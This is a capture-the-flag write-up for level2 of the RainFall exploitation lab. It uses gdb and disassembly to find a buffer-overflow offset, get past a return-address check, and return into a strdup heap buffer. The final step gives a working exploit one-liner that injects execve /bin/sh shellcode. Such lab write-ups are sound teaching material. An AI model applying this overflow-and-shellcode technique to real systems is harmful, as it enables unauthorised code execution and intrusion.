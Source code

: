 # level2

The binary presents doesn't take any arguments. It reads from `stdin` and prints it back to `stdout`. 


## Step 1
Decompile the binary with `Ghidra` gives the following code: [source.c](https://github.com/lorispuchol/rainfall/blob/main/level2/source.c) 

## Step 2
Use [Buffer overflow pattern generator
](https://wiremask.eu/tools/buffer-overflow-pattern-generator/?) to find the offset of the return address.

```console
level2@RainFall:~$ gdb level2
(gdb) r
Starting program: /home/user/level2/level2 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
(gdb)
```

> Offset is 80

## Step 3

Try repeat the same process than level1 but it doesn't work. it print the return address in the stack. and exit

Indeed there is a __stack protector__ which verify if return is in the `0xb.......` range. 

```console
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:	mov    0x4(%ebp),%eax
   0x080484f5 <+33>:	mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:	mov    -0xc(%ebp),%eax
   0x080484fb <+39>:	and    $0xb0000000,%eax
   0x08048500 <+44>:	cmp    $0xb0000000,%eax
   0x08048505 <+49>:	jne    0x8048527 <p+83>
```

```c
if ((unaff_retaddr & 0xb0000000) == 0xb0000000) {
    printf("(%p)\n",unaff_retaddr);
                    /* WARNING: Subroutine does not return */
    _exit(1);
}
```

So we can't drop at the start of the buffer (same for libc and environment variables) which are in `0xb.......` addresses.

![alt text](./Ressources/Memory-Layout-of-C-1.webp)

> High address are like `0xffffffff` and low address are like `0x08080000`. environnement variables are also in the high address range.


## Goal
We can see that the buffer is dup with `strdup`. `strdup` malloc a new buffer and copy the string in it.

Goal is to drop in the `strdup` buffer by finding the return address of the `strdup` function.

```console
(gdb) disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:	push   %ebp
   0x080484d5 <+1>:	mov    %esp,%ebp
   0x080484d7 <+3>:	sub    $0x68,%esp
   0x080484da <+6>:	mov    0x8049860,%eax
   0x080484df <+11>:	mov    %eax,(%esp)
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:	lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:	mov    %eax,(%esp)
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:	mov    0x4(%ebp),%eax
   0x080484f5 <+33>:	mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:	mov    -0xc(%ebp),%eax
   0x080484fb <+39>:	and    $0xb0000000,%eax
   0x08048500 <+44>:	cmp    $0xb0000000,%eax
   0x08048505 <+49>:	jne    0x8048527 <p+83>
   0x08048507 <+51>:	mov    $0x8048620,%eax
   0x0804850c <+56>:	mov    -0xc(%ebp),%edx
   0x0804850f <+59>:	mov    %edx,0x4(%esp)
   0x08048513 <+63>:	mov    %eax,(%esp)
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
   0x0804851b <+71>:	movl   $0x1,(%esp)
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:	lea    -0x4c(%ebp),%eax
   0x0804852a <+86>:	mov    %eax,(%esp)
   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
   0x08048532 <+94>:	lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:	mov    %eax,(%esp)
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
=> 0x0804853d <+105>:	leave  
   0x0804853e <+106>:	ret    
End of assembler dump.
(gdb) i r
eax            0x804a008	134520840
ecx            0x0	0
edx            0xbffff6dc	-1073744164
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff6c0	0xbffff6c0
ebp            0xbffff728	0xbffff728
esi            0x0	0
edi            0x0	0
eip            0x804853d	0x804853d <p+105>
eflags         0x200282	[ SF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```

return address of `strdup` is `0x804a008`

can be found with `ltrace` too

## Exploit

```bash
(python -c 'print "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80" + "A" * (80-21) + "\x08\xa0\x04\x08"'; cat) | /home/user/level2/level2
```
use a shorter shellcode found in [Shellstorm](https://shell-storm.org/shellcode/files/shellcode-752.html)